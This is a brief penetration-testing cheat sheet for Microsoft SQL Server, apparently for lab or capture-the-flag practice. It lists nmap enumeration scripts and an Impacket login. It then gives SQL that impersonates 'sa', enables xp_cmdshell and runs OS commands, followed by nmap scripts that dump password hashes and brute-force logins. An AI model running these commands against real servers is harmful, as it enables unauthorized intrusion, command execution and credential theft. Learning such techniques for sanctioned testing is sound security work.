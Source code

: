 # Microsoft SQL Server (TCP/1433)

## Nmap

sudo nmap -sV -sC -p1433 <TARGET_IP>
nmap -p1433 --script ms-sql-info <TARGET_IP>
nmap -p1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433 <TARGET_IP>
nmap -p1433 --script ms-sql-empty-password <TARGET_IP>

Impacket client

python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py '<USER>:<PW>@<HOST>'

# inside SQL:

EXECUTE AS LOGIN = 'sa';          -- if permitted
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;          RECONFIGURE;
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'type C:\flag.txt';
NSE helpers (requires creds)

nmap -p1433 --script ms-sql-query --script-args \
"mssql.username=<USER>,mssql.password=<PW>,ms-sql-query.query='SELECT @@version;'" <TARGET_IP>

nmap -p1433 --script ms-sql-dump-hashes --script-args \
"mssql.username=<USER>,mssql.password=<PW>" <TARGET_IP>
Brute (only if in scope)

nmap -p1433 --script ms-sql-brute --script-args \
userdb=/root/common_users.txt,passdb=/root/100-common-passwords.txt <TARGET_IP>
